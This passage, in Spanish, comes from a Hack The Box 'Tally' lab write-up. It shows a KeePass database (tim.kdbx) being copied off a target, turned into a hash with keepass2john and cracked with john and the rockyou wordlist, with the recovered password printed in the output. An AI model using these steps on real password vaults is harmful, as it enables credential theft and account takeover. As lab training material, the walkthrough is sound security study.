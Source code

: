 ```bash
    │   │   └── tim.kdbx
    │   └── Project
    │       ├── Communications
    │       ├── Log
    │       │   └── do to.txt
    │       └── Vendors
    └── Yenwi
        └── Archive

27 directories, 130 files
```

Algo que debemos de notar es que el posible usuario **Tim** tiene un archivo de extensión **kdbx**, asociado a la aplicación **Keepass** para guardar credenciales; así que vamos a traerlo a nuestro directorio de trabajo.

```bash
❯ cp User/Tim/Files/tim.kdbx /home/k4miyo/Documentos/HTB/Tally/content/.
❯ cd /home/k4miyo/Documentos/HTB/Tally/content/
❯ file tim.kdbx
tim.kdbx: Keepass password database 2.x KDBX
```

Si tratamos de abrir el archivo, este nos solicitará una contraseña:

![](/assets/images/htb-tally/tally-keepass.png)

Ahora vamos a utilizar `keepass2john` para generar un hash del archivo `tim.kdbx` y posteriormente tratar de crackearlo con  `john`:

```bash
❯ keepass2john tim.kdbx > tim_hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt tim_hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
simplementeyo    (tim)
1g 0:00:00:03 DONE (2021-11-18 22:27) 0.3105g/s 7672p/s 7672c/s 7672C/s teamomivida..rylee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
